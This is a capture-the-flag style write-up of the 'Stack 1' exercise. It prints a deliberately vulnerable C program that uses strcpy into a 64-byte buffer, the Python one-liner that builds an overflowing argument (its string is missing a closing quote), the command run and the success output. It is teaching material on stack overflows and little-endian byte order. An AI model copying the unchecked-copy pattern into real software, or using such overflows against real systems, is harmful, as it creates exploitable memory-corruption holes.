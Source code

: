 # Stack 1

Stack 1 source
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```
This program does not take stdin, so cannot be piped to. Requires commandline argument instead.

Instead of manually crafting an input argument, I created one using python.
```python3
print("A"*64 + "\x64\x63\x62\x61)
```
Output
```shell
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba
```

Shell command
```shell
./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba
```

Output
```shell
you have correctly got the variable to the right value
```

This was another simple buffer overflow, but this time the value to write must be crafted carefully. Order of byte writing is emphasized, teaching the concept of little endian representation.
